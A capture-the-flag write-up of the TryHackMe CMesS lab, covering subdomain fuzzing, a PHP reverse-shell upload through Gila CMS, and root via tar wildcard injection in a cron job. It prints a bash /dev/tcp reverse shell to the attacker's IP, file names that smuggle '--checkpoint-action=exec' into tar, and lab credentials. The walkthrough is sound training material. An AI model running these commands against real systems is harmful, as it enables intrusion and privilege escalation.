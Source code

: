 
Let's start with a nmap scan. 
```
# Nmap 7.91 scan initiated Fri Jun 11 17:04:10 2021 as: nmap -sC -sV -A -oN scans/nmap-output 10.10.250.5
Nmap scan report for 10.10.250.5
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp   open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1247/tcp filtered visionpyramid
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 11 17:04:59 2021 -- 1 IP address (1 host up) scanned in 49.19 seconds
```
Looks like we got a web page called **gilla CMS** and we got a port 22 ssh open. 

---web page---

Let's run a dirb scan just in case. Dirb give me a ton of directories. Among them I found this login page. (cmess.thm/admin/)

---admin---

If we look at the hints. It told us to ``Have you tried fuzzing for subdomains?`` fuzz let's do this with wfuzz.

Here is the command I used for wfuzz :

```bash
wfuzz -c -w /opt/seclist/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://cmess.thm' -H "Host: FUZZ.cmess.thm" --hw 290 
```
First I didn't specify wordcount. It gives me lot of 290. Then I specify wordcount using **--hw 290**.Let's see that in action.

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://cmess.thm/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000000019:   200        30 L     104 W      934 Ch      "dev"                        

Total time: 88.31007
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 56.49411
```
we get a subdomain dev.cmess.thm. We add it to our /etc/hosts file to the same IP address as of cmess.thm. we can see the page like this.

---dev----

It seems to be a chat between user andre and the support. And we get the email and password for the user andre which can be used for login in the cms. 

Our credentials

* Email: andre@cmess.thm
* Password: KPFTN_f2yxe%

---about---

After the login you can see the **Gila CMS** version number. But I didn't go ahead and search for exploit. Looking around, we see that we have the ability to upload files to the machine at **Content -> File Manager** option. 

---upload---

We can upload the **php-rev-shell** now. Let's setup a netcat listner and upload the file.

After we upload it. You can find it in assests. 

---shell---

After we execute it. We got the call back.

```bash
┌─[visith@parrot]─[~/CTF/thm/CMeSS]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.182] from (UNKNOWN) [10.10.250.5] 32872
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:16:04 up 42 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@cmess:/$ ls
ls
bin   dev  home        lib    lost+found  mnt  proc  run   srv	tmp  var
boot  etc  initrd.img  lib64  media	  opt  root  sbin  sys	usr  vmlinuz
```
After some enumerations. MySQL database password in **/var/www/html**. It's file called config.php. But this is long way to get andre's password. 

When we go into the **/opt/** directory. You can see hidden file called
**.password.bak**. It gives andre's password.

```bash
www-data@cmess:/$ cd opt
cd opt
www-data@cmess:/opt$ ls -la
ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQfsdCB7aAP6
```
Our ssh login credentials 
* User: andre
* password: UQfsdCB7aAP6

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/CMeSS]
└──╼ $ssh andre@10.10.250.5
andre@10.10.250.5's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20
andre@cmess:~$ ls
backup  user.txt
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6**************}
```
We got our first flag. Let's try to run sudo.

```bash
andre@cmess:~$ sudo -l
[sudo] password for andre: 
Sorry, user andre may not run sudo on cmess.
```
We can't run sudo with this user. Let's run a linpeas and see what we got.

---linpeas----

Linpeas shows us some interesting cron jobs.linpeas marks it as 99% PE vector. We see that the cron job backups everyting under the folder **/home/andre/backup** to the /tmp folder as a **tar**. For tar ing the files, it uses wildcard. Googling for a bit, we find that this wildcard can be exploited.

This exploit has been very well explained in this blog :
https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```bash
andre@cmess:~$ cd backup/
andre@cmess:~/backup$ ls
note
andre@cmess:~/backup$ cat note 
Note to self.
Anything in here will be backed up! 
```
As we found in linpeas output. They put a note to us. Let's try to exploit. 

we need write a script shell.sh that gives us a reverse shell. This was my rev shell. 

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.2.182/4242 0>&1
```
Let's execute our exploit like this.
```bash
andre@cmess:~/backup$ nano shell.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=bash shell.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ echo "" > --checkpoint=1
```
And after a bit of time, we get our root shell and can read the root.txt under /root.

```bash
┌─[visith@parrot]─[~/CTF/thm/CMeSS/www]
└──╼ $nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.9.2.182] from (UNKNOWN) [10.10.250.5] 60638
bash: cannot set terminal process group (21478): Inappropriate ioctl for device
bash: no job control in this shell
root@cmess:/home/andre/backup# cd /root
cd /root
root@cmess:~# ls
ls
root.txt
root@cmess:~# cat root.txt
cat root.txt
thm{9f85b7fdeb2cf9698**************}
root@cmess:~#
```

Thx for reading !!
Have a nice day










